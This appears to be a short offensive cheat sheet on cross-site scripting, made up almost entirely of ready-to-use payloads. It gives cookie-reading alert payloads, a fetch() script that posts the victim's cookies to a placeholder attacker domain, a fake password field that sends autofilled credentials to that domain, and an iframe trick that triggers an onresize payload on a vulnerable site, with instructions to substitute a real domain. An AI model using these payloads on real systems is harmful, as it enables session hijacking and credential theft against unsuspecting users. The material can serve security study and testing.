 # Cross-Site Scripting

## 0x01 General

```
<script>alert(document.cookie)</script>
```

```
<img src=x onerror=alert(document.cookie)>
```

## 0x02 Exploit

### Steal Cookie

Replace `evil-website.com` in the code with the actual domain

```
<script>
fetch("https://evil-website.com", {
  method: "POST",
  mode: "no-cors",
  body: JSON.stringify({ cookie: document.cookie }),
});
</script>
```

### Steal Password

* Only for users who have enabled autofill passwords
* Replace `evil-website.com` in the code with the actual domain

```
<input name="username" id="username" />
<input
    name="password"
    id="password"
    type="password"
    onchange="if(this.value.length); fetch('https://evil-website.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"
/>
```

## 0x03 Experiment

### `onresize` event (GET)

* You need to start an HTTP service for the victim to access
* Replace `vulnerable-website.com` in the code with the actual domain
* Replace `<xss-parameter>` in the code with the actual parameter.
* Replace `<%3Cbody%20onresize=%22print()%22%3E>` in the code with the actual payload.
  * The decoded value is x `<body onresize="print()">`

```
<br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br />

<iframe
    src="https://vulnerable-website.com/?<xss-parameter>=<%3Cbody%20onresize=%22print()%22%3E>"
    onload="this.style.width='0'; this.style.height='0'"
></iframe>
```
